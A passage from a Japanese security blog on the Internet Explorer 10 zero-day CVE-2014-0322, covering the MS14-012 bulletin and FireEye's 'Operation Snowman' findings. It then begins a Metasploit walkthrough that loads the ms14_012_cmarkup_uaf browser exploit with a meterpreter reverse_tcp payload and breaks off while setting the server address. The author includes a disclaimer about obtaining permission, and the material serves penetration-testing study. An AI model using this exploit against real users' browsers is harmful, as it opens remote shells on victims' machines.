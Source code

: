  
MS14-012 のページに戻り、CVE 番号 CVE-2014-0322 で検索すると、"When this security bulletin was issued, had Microsoft received any reports that these vulnerabilities are being exploited?" というセクションにおける CVE-2014-0322 のところの答えが "Yes. Microsoft is aware of limited, targeted attacks that attempt to exploit this vulnerability in Internet Explorer 10." となっています。つまり、パッチがリリースされる前に攻撃が確認されていたということです。いわゆるゼロデイ攻撃です。

 
MITRE のページにおける References のリンクにある FireEye というアメリカのセキュリティ会社のブログに注目です。どうやら彼らがこの脆弱性に対するゼロデイ攻撃を 2/11 に検出したそうです。そこから Microsoft と FireEye のチームが共同で調査して、3 月 11 日に修正がリリース、というのが発見からクローズまでの流れでしょうか。技術的な部分は細かいところまで FireEye のブログに書かれています。彼らはこの攻撃を Operation Snowman と名付けたそうです。雪だるま作戦？

 
[http://www.fireeye.com/blog/technical/cyber-exploits/2014/02/new-ie-zero-day-found-in-watering-hole-attack-2.html](http://www.fireeye.com/blog/technical/cyber-exploits/2014/02/new-ie-zero-day-found-in-watering-hole-attack-2.html) <br />
[http://www.fireeye.com/blog/uncategorized/2014/02/operation-snowman-deputydog-actor-compromises-us-veterans-of-foreign-wars-website.html](http://www.fireeye.com/blog/uncategorized/2014/02/operation-snowman-deputydog-actor-compromises-us-veterans-of-foreign-wars-website.html) 

 
サンプル付きの解説だと、ここが詳しそうです。まだちゃんと読んでいない・・。

 
HDW Sec - Blog <br />
[http://hdwsec.fr/blog/CVE-2014-0322.html](http://hdwsec.fr/blog/CVE-2014-0322.html)

 
長くなった前置きはここまでにして、実際に metasploit を動かしてみましょう。その前に。<font color="#ff0000">当ブログにて提供している情報、リンク先などにより、いかなる損失や損害などの被害が発生しても責任を追いかねますのでご了承ください。また、実際に Penetration Test を行う際は、システム管理者への事前通知を行い、許可を貰った上で実施してください。</font>

 
手元の環境では IE10/Windows 8 x64 のプラットフォームで攻撃が有効でした。その他、IE8/Win7、IE9/Win7、IE11/Win8.1 を試しましたが攻撃失敗・・・。IE10 以外には効果がないのかもしれませんが詳細は不明。IE10/Win7 の環境はまだ試していないのでそのうち。というかプラットフォームの組み合わせが多すぎる。IE は 6 から 11 まで、OS は XP から 8.1 までとか超多い。IE9 までは WOW64 (32bit on 64bit) の iexplore.exe と Win64 の iexplore.exe の両方あるし、Win8 以降だと Desktop と Moden App・・・。どうなってるんだ Windows。

 
気を取り直して metasploit 側での作業。モジュールを読み込んで、Web サーバーを開始するだけです。ペイロードはおなじみ、meterpreter/reverse_tcp で。なんと簡単なのでしょう。

 
```
msf > use exploit/windows/browser/ms14_012_cmarkup_uaf 
msf exploit(ms14_012_cmarkup_uaf) > show options

Module options (exploit/windows/browser/ms14_012_cmarkup_uaf):

   Name        Current Setting  Required  Description 
   ----        ---------------  --------  ----------- 
   Retries     false            no        Allow the browser to retry the module 
   SRVHOST     0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0 
   SRVPORT     8080             yes       The local port to listen on. 
   SSL         false            no        Negotiate SSL for incoming connections 
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated) 
   SSLVersion  SSL3             no        Specify the version of SSL that should be used (accepted: SSL2, SSL3, TLS1) 
   URIPATH                      no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name 
   --  ---- 
   0   Windows 7 SP1 / IE 10 / FP 12


msf exploit(ms14_012_cmarkup_uaf) > set SRVHOST 10.10.10.80 
SRVHOST => 10.10.10.80 
```